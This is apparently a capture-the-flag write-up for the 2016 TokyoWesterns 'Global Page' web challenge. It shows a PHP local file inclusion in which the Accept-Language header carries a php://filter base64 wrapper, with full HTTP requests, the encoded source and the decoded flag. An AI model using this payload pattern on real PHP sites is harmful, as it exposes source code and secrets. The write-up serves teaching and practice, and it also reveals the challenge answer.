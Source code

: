 ## Tokey Westerns/MMA CTF 2nd 2016 - Global Page  (Web 50pt)
##### 03/09 - 05/09/2016 (48hr)
___

### Description: 
	Welcome to TokyoWesterns' CTF!
	http://globalpage.chal.ctf.westerns.tokyo/
___
### Solution

There are 2 url's in home page:
```
	http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo
	http://globalpage.chal.ctf.westerns.tokyo/?page=ctf
```

When we click any of them we get the following warning:

```
Warning: include(tokyo/en-GR.php): failed to open stream: No such file or directory in /var/www/globalpage/index.php on line 41

Warning: include(): Failed opening 'tokyo/en-US.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/globalpage/index.php on line 41

Capture the flag, commonly abbreviated as CTF, [.... MORE TEXT ....] own team, or "in jail." 
```

The warning says that the requested file tokyo/en-GR.php didn't found. The "en-GR" is the 
accepted language, which is taken from the browser.

If we try a straight LFI in the page variable it will fail as dots and slashes are removed.

Also there's a slash after page variable so we need to split our LFI in page and language:

```
GET /?page=php: HTTP/1.1
Host: globalpage.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: /filter/convert.base64-encode/resource=index,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

By sending the above HTTP request we get the source of index.php encoded in base64. In the 
source there's an interesting line:

```php
	include "flag.php";
```

We repeat the same and we get the flag.php file:
```
GET /?page=php: HTTP/1.1
Host: globalpage.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: /filter/convert.base64-encode/resource=flag,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

The returned page has the encoded flag.php:
```
PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg==
```

We base64 decode it and we get the flag:
```php
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
?>
```
___
